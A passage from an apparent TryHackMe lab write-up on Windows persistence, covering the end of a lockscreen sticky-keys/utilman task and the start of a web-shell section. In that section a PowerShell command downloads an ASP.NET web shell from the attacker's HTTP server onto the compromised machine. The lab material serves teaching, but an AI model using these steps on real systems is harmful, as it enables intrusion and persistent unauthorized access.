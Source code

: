 ![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Sticky%20Keys%20pt1.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Sticky%20Keys%20pt.2.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Utilman%20pt2.png)

7. `C:\flags\flag15.exe` from our open command promp on the compromised Windows machine's lockscreen to execute the **flag15.exe** program, which ended up displaying the flag for this task onto our terminal 
```PowerShell
C:\Windows\system32>C:\flags\flag15.exe
THM{THE_LOGIN_SCREEN_IS_MERELY_JUST_A_SUGGESTION}
```


# Persisting Through Existing Services

## Using Web Shells

1. Started this room's machine
2. `firefox <URL>` from our Linux attack machine to launch Firefox and redirect it to the ASP.NET web shell Github repository, which we'll then download onto our attack machine 
```Bash
root@ip-10-10-32-42:~# firefox https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmdasp.aspx
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Firefox%20cmdaspx.net%20Github.png)

3. `sudo python -m http.server` from our Linux attack machine to start a simple HTTP server on our attack machine to allow our compromised machine to connect back to our attack machine and download the ASP.NET web shell file that we just downloaded from Github
```Bash
root@ip-10-10-32-42:~# sudo python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```
4. `(New-Object System.Net.WebClient).Downloadfile('http://<ATTACK MACHINE IP>:8000/<ASPX.NET WEB SHELL FILE1>','<ASPX.NET WEB SHELL FILE2>.exe')` from our compromised Windows machine to download the ASP.NET web shell file from our attack machine and save it onto this machine with a different name
```PowerShell
PS C:\Users\Administrator> (New-Object System.Net.WebClient).Downloadfile('http://10.10.32.42:8000/cmdasp.aspx','shell.aspx')
```
5. `dir` from our compromised Windows machine to display the files and directories of our current working directory onto our terminal to verify if the ASP.NET web shell file was successfully downloaded from our attack machine, which it was
```PowerShell
PS C:\Users\Administrator> dir
    Directory: C:\Users\Administrator
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        3/17/2021   3:13 PM                3D Objects
d-r---        3/17/2021   3:13 PM                Contacts
d-r---         6/8/2022   4:40 AM                Desktop
d-r---        5/29/2022  12:07 AM                Documents
d-r---        5/29/2022  12:07 AM                Downloads
d-r---        3/17/2021   3:13 PM                Favorites
d-r---        3/17/2021   3:13 PM                Links
d-r---        3/17/2021   3:13 PM                Music
d-r---        3/17/2021   3:13 PM                Pictures
d-r---        3/17/2021   3:13 PM                Saved Games
d-r---        3/17/2021   3:13 PM                Searches
d-r---        3/17/2021   3:13 PM                Videos
```